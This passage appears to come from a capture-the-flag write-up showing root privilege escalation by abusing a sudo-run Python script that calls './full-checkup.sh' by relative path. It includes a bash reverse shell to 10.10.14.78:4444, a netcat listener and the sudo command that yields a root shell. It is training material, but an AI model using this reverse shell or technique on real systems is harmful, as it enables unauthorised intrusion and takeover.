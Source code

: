 Checking the source code:

```python
import subprocess
import sys

actions = ['full-checkup', 'docker-ps','docker-inspect']

def run_command(arg_list):
    r = subprocess.run(arg_list, capture_output=True)
    if r.stderr:
        output = r.stderr.decode()
    else:
        output = r.stdout.decode()

    return output

# [...]

if action == 'docker-inspect':
  # [...]

elif action == 'docker-ps':
  # [...]

elif action == 'full-checkup':
  try:
    arg_list = ['./full-checkup.sh']
    print(run_command(arg_list))
    print('[+] Done!')
  except:
    print('Something went wrong')
    exit(1)
```

Here's our way out of here. In the `arg_list` variable (line 25), the script searches for a file with the path `./full-checkup.sh`, which is relative to the user's current execution location. By creating our own `full-checkup.sh` file (with malicious code), we can escalate privileges to root.

```bash
cd /tmp 
vim full-checkup.sh 
```

Inside the file:

```vim
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.78/4444 0>&1
```

Finally, the icing on the cake is:

```shell
(local) $ nc -lvp 4444
$ chmod +x full-checkup.sh 
$ sudo /usr/bin/python3 /opt/scripts/system-checkup.py full-checkup
# whoami
root
```
